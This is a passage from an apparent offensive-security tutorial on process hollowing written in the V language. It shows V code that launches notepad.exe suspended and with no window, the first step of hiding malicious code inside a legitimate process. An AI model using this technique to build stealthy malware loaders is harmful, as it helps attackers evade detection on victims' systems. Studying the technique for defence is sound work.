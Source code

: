 <p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2022-04-25-OffensiVe-Security-with-V-2-Process-Hollowing/Pasted image 20220228114850.png" height="500" width="825" /></p>

### V Time
The malware first creates a **new process** to host the malicious code in `SUSPENDED` mode. This is done by calling `CreateProcessW` and setting the **Process Creation Flag** to `CREATE_SUSPENDED (0x00000004)`. 

```c
// Create a process (notepad.exe)
mut child_stdin := &u32(0)
mut child_stdout_read := &u32(0)
mut child_stdout_write := &u32(0)

cmd := "notepad.exe"

command_line := [32768]u16{}
proc_info := ProcessInformation{}
start_info := StartupInfo{
    lp_reserved2: 0
    lp_reserved: 0
    lp_desktop: 0
    lp_title: 0
    cb: sizeof(C.PROCESS_INFORMATION)
    h_std_input: child_stdin
    h_std_output: child_stdout_write
    h_std_error: child_stdout_write
    dw_flags: u32(C.STARTF_USESTDHANDLES)
}
C.ZeroMemory(&start_info, sizeof(start_info))
C.ZeroMemory(&proc_info, sizeof(proc_info))

C.ExpandEnvironmentStringsW(cmd.to_wide(), voidptr(&command_line), 32768)
		
// CREATE_SUSPENDED 0x00000004 CREATE_NO_WINDOW 0x08000000
create_process_ok := C.CreateProcessW(0, &command_line[0], 0, 0, C.FALSE, 0x00000004|0x08000000, 0, 0, voidptr(&start_info), voidptr(&proc_info))
```
